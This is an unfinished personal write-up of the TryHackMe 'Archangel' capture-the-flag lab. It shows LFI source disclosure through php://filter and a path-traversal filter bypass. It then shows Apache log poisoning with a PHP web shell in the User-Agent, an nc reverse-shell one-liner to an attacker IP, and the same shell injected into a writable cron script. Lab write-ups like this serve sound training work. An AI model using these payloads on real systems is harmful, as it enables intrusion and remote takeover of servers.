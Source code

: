 
2025-02-15 18:31

Source: #Boot2root #tryhackme 
### Recon

Rustscan shows a ssh (22) and http (80) port open 

find the hostname using the command below 
```sh
curl -s 10.10.93.69 | grep ".thm"
```

add the newly found host to `etc/hosts`
```sh
echo "10.10.93.69 mafialive.thm" | sudo tee -a /etc/hosts
```
### Exploiting LFI 

dirsearch finds a `robots.txt`, the `robots.txt` tells us that `test.php` is disallowed for robots to crawl

On `test.php` page, we can't see much except a button which when clicked prints "Control is an illusion". But if we see closely, then when we click on the button the parameter `?view=/var/www/html/development_testing/mrrobot.php` gets added to the URL. The entire path of the page `mrrobot.php` is provided over here which appears to be a bit odd because normally relative paths can be used.

Unfortunately, it seems we can’t read the code in `test.php`, probably due to a protection in the script.

However, if we try to include other files, e.g. `/etc/passwd`, we will get an error saying: ‘Sorry, That's not allowed’. To understand the code logic that filters out certain inputs, we can use PHP wrappers to include the source code of the page as base64 encoded text, then decode it. Info on PHP wrappers that can be used for LFI/RFI [https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers), [PayloadsAllTheThings/File Inclusion at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)

syntax
```sh
http://***DOMAIN***.thm/***PAGE***?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/***PAGE***
```

```sh
curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

above URL returns a base64 encoded string, decoding the string reveals code of `test.php`

The code is checking that the 2 below conditions are met about the injected content:

- it should not contain `../..`
- it should contain `/var/www/html/development_testing`

We can bypass the path traversal protection by replacing `../..` with `.././..`, as follows:

```sh
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log
```

From the access logs it can be seen that along with the path that we are trying to access our User-Agent is also getting logged. We can add a PHP code in the User-Agent header using Burp Suite and with the help of that gain a reverse shell.

We’ll now poison the apache2 log file by injecting a PHP payload in the user-agent string as follows
Now, let’s download a PHP reverse shell. Start by hosting it locally (`python3 -m http.server`) and download it by sending the following request in BurpSuite Repeater

1. Add the following code somewhere in the `User-Agent` header value:
    
    ```html
    <?php system($_GET['cmd']); ?>
    ```
    
2. Append `&cmd=whoami` to the GET request. Here, all that we are doing is passing `whoami` string to the `cmd` variable would get processed by the PHP code in the User-Agent and we would get the output of the command in the logged User-Agent value in the `access.log` file.

When you send the request for the first time, you won't see anything in the output because the command has just been executed and what you are viewing is the copy of log file before the output of your command was written to it. Therefore, you need to send the same request again so that the output written previous can now be viewed.

start of the malicious burp request looks 
```
GET /test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4444 >/tmp/f HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
```
remember to url encode the revshell payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4444 >/tmp/f`

call the reverse shell on the server by browsing `http://mafialive.thm/rev.php` We now have a reverse shell:
```sh
rlwrap nc -nlvp 4444
```

### Horizontal Privilege Escalation

searching the machine doesn't reveal anything good, so search for cronjobs using `cat /etc/crontab`

Here, we can see that a shell script named as `helloworld.sh` in the `/opt` directory is being executed as user archangel. We can check the permissions of that file and try to use it to gain access to the system as user archangel.

```shell
www-data@ubuntu:/home/archangel/myfiles$ cat helloworld.sh
cat helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```

From the output, we can see that all the `rwx` permissions are given to others. So, we can edit this file, add a payload in the bash script to create a reverse shell as user archangel. For this we can again use the same payload but change the port number

```shell
www-data@ubuntu:/opt$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4445 >/tmp/f" > /opt/helloworld.sh
```
### Privesc



### References
[TryHackMe | Cyber Security Training](https://tryhackme.com/room/archangel)

walkthrough

[Writeups/TryHackMe/Easy/archangel/archangel.md at master · 0xNirvana/Writeups · GitHub](https://github.com/0xNirvana/Writeups/blob/master/TryHackMe/Easy/archangel/archangel.md)
[TryHackMe-Archangel - aldeid](https://www.aldeid.com/wiki/TryHackMe-Archangel)
[Archangel - Write-up - TryHackMe | Rawsec](https://blog.raw.pm/en/TryHackMe-Archangel-write-up/)
[TryHackMe: Archangel Writeup. https://tryhackme.com/room/archangel | by ALIEN0X | Medium](https://medium.com/@infohellohumans/tryhackme-archangel-writeup-2807313edfb7)
[TryHackMe – Archangel walkthrough - narancs's blog](https://narancsblog.com/thm/easy/archangel/)